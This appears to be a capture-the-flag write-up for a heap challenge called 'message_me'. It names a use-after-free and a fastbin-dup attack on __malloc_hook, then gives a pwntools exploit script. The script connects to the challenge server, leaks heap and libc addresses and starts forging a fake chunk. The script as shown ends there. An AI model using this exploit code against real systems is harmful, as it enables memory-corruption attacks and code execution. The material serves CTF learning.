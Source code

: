 ### message_me (kevin47)

* UAF
* hijack __malloc_hook with fastbin dup attack

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
from ctypes import *
import re

context.arch = 'amd64'

#r = remote('127.0.0.1', 7124)
r = remote('159.65.125.233', 6003)

def add(sz, content):
    r.sendlineafter('choice : ', '0')
    r.sendlineafter('size : ', str(sz))
    r.sendlineafter('meesage : ', content)

def remove(idx):
    r.sendlineafter('choice : ', '1')
    r.sendlineafter('message : ', str(idx))

def show(idx):
    r.sendlineafter('choice : ', '2')
    r.sendlineafter('message : ', str(idx))
    return r.recvuntil('----', drop=True)

def change(idx):
    r.sendlineafter('choice : ', '3')
    r.sendlineafter('message : ', str(idx))

add(0x100-0x10, 'a')    # 0
add(100-0x10, 'a')      # 1
add(0x100-0x10, 'a')    # 2
add(100-0x10, 'a')      # 3
add(0x100-0x10, 'a')    # 4
add(100-0x10, 'a')      # 5
remove(0)
remove(2)
remove(4)
x = show(2)
xx = re.findall('Message : (.*)\n   Message', x, re.DOTALL)[0]
heap = u64(xx.ljust(8, '\x00')) - 0x2e0
x = show(4)
xx = re.findall('Message : (.*)\n   Message', x, re.DOTALL)[0]
libc = u64(xx.ljust(8, '\x00')) - 0x3c4c68
print 'heap:', hex(heap)
print 'libc:', hex(libc)

# fastbin dup
clib = CDLL("libc.so.6")
clib.srand(1)
__malloc_hook = libc + 0x3c4aed
#__malloc_hook = 0x602005
magic = libc + 0xf02a4
print 'magic:', hex(magic)
add(0x70-0x10, flat(    # 6
    0x71,
))
```